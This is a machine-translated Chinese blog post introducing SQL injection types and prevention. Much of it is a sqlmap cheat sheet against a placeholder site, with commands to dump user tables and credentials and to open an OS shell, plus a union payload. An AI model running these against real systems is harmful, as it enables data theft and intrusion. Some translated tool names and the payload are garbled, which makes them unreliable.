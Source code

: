 # SQL 注入:概述

> 原文：<https://infosecwriteups.com/sql-injection-an-overview-1057c5729dc5?source=collection_archive---------3----------------------->

作者= [anshul vyas](https://www.instagram.com/_ansh_vyas/)

![](img/081a7da45e859b7a334024a167fcc949.png)

# 介绍

SQL 是(结构查询语言)的缩写，是由 IBM 的研究人员 Raymond Boyce 和 Donald Chamberlin 在 20 世纪 70 年代开发的，这种语言是一种帮助管理数据库的后端语言，这种语言可以编辑数据库并进一步检索它，还可以更新、删除和创建新的数据库。数据以表、行和列的
形式存储在数据库中

# 什么是 SQL 注入？

SQL 注入(也称为 SQLi)这是一种特殊类型的注入攻击，有助于操纵 SQL 数据库来检索 SQL 数据库中存在的内容，而无需任何身份验证。如果一个成功的 SQL 注入是由一个个人或一个组织执行的，它可能会损害商誉，这对企业来说是非常糟糕的

# SQL 注入怎么会害人？

SQL 注入是一个需要尽快修复的关键漏洞，它不仅损害了商誉，还损害了用户体验。它是一个如此关键的漏洞，以至于国家漏洞数据库给了它 9.8(关键)分。任何黑客只需简单点击一下，就可以转储数据库中的所有内容

# SQL 注入的类型

基本上有 3 种类型的 SQL 注入，再分为 2 类

## 1.带内 SQLi

这种类型的 SQL 注入是简单的类型和效率。这使得这成为最常见的攻击类型。这也分为两类:

*   **基于错误的 SQLi:** 在这种攻击中，攻击者故意产生一条错误消息，从这条消息中，攻击者可以收集有关 web 应用程序和数据库的信息
*   **基于 Union 的 SQLi:** 在这种攻击中，黑客利用 Union 运算符来利用漏洞。

```
Example — 'UNION SELECT * FROM users, communion SELECT * FROM users, courses
```

然后作为 HTTP 响应的一部分返回。

## 2.推理 SQLi

推理 SQL 注入，它不像其他 SQL 注入带内 SQLi，也许需要更长的时间让恶意黑客利用，但是，它和任何其他形式的 SQL 注入一样危险

*   **基于时间的 SQLi:** 在这种情况下，攻击者向数据库发送一个 SQL 查询，让数据库等待一段时间(以秒为单位)，然后才响应查询的真假。
*   **Boolean SQLi:** 在这个攻击中，攻击者向数据库发送一个 SQL 查询，同时让应用程序通过生成是真还是假的结果来做出响应。

## 3.带外 SQLi

这种类型的攻击在以下两种情况下执行:攻击者无法使用相同的媒介来发起攻击和收集信息，或者服务器非常落后或不稳定，无法执行这些特定类型的操作。

# 如何开发 SQL 注入？

了解 SQL 注入的最佳方式是通过 portswigger 实验室
利用 SQL 注入的最佳工具是通过一些渗透测试工具，如

1.  SQL 映射
2.  硬石膏
3.  JSQLMAP
4.  QSCANNER
5.  BBQSQL

这里我打算通过 SQL MAP 来解释一下。你可以从 https://github.com/sqlmapproject/sqlmap.git 安装 SQL MAP。但是它是预先安装在 Kali linux 中的

## 简易扫描选项

```
sqlmap -u "http://testsite.com/login.php"
```

## 使用 tor 扫描

```
sqlmap -u "http://testsite.com/login.php" --tor --tor-type=SOCKS5
```

## 通过手动设置返回时间进行扫描

```
sqlmap -u "http://testsite.com/login.php" --time-sec 15
```

## 列出站点上的所有数据库

```
sqlmap -u "http://testsite.com/login.php" --dbs
```

## 列出特定数据库中的所有表

```
sqlmap -u "http://testsite.com/login.php" -D site_db --tables
```

## 转储数据库表的内容

```
sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump
```

## 列出表格中的所有列

```
sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns
```

## 仅转储选定的列

```
sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump
```

## 当拥有管理员凭据时，我们可以转储数据库

```
sqlmap -u "http://testsite.com/login.php" –method "POST" –data "username=admin&password=admin&submit=Submit" -D social_mccodes -T users –dump
```

## 获取操作系统外壳

```
sqlmap --dbms=mysql -u "http://testsite.com/login.php" --os-shell
```

## 获取 SQL Shell

```
sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell
```

# SQL 注入预防

1.  连续扫描和渗透测试
2.  限制数据库的权限
3.  使用查询参数

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)，以 5 篇文章、4 条线索、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！